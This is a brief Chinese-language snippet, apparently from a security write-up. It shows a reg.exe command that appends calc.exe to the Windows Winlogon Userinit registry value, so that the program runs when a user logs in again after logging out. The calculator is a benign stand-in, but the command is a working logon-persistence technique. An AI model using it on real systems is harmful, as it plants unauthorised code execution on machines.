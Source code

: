 再次登录时（需要注销的情况下会触发，注销而不是锁定）会发现弹出计算器。

注册表修改命令：

```
reg.exe add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d C:\Windows\system32\userinit.exe,C:\Windows\system32\calc.exe /f
```


